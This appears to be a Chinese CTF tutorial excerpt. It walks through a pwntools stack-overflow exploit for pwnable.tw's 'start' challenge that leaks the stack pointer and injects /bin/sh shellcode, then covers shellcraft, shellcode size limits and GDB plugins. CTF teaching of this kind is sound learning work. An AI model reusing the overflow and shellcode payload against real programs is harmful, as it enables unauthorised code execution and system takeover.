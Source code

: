 
以下是一个简单的例子：


```python
from pwn import *

context(os='linux',arch='i386',log_level='debug')

shellcode  = "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

myelf = ELF("./start")
io = process(myelf.path)
# io = remote("chall.pwnable.tw",10000)
# gdb.attach(io,"b _start")

payload = "a"*20
payload += p32(0x08048087)

io.recv()
io.send(payload)

oldesp = u32(io.recv(4))
io.recv()

payload = "a"*20
payload += p32(oldesp+20)
payload += shellcode

io.send(payload)

io.interactive()
```

其中shellcode一般可以用pwntools自带的shellcraft模块生成：

```python
from pwn import *
shellcode = asm(shellcraft.i386.linux.sh())
print shellcode
```

但是这种shellcode可能会有点长，比如上面那个有44个字节，这道题是只能同60-20-4=36个字节，所以还是需要取网上找shellcode，当然如果不嫌麻烦的话可以把前面那20个字节也利用上，然后跳到后面36个字节，就不用上网找了，不过麻烦死。哪找？

答：[Shellcodes database](http://shell-storm.org/shellcode/)

## GDB的使用

gdb在linux上一般都自带，mac上也有，但是还需要装一个gdb的插件让gdb在调试的时候显示的信息更方便，这里我用的是peda，安装和使用如下：

- [GDB实用插件(peda, gef, gdbinit)全解](https://blog.csdn.net/gatieme/article/details/63254211)
- [gdb调试带参数程序](https://www.cnblogs.com/rosesmall/archive/2012/04/10/2440514.html)
- [gdb的调试与使用](https://introspelliam.github.io/2017/08/03/pwn/gdb%E7%9A%84%E8%B0%83%E8%AF%95%E4%B8%8E%E4%BD%BF%E7%94%A8/)
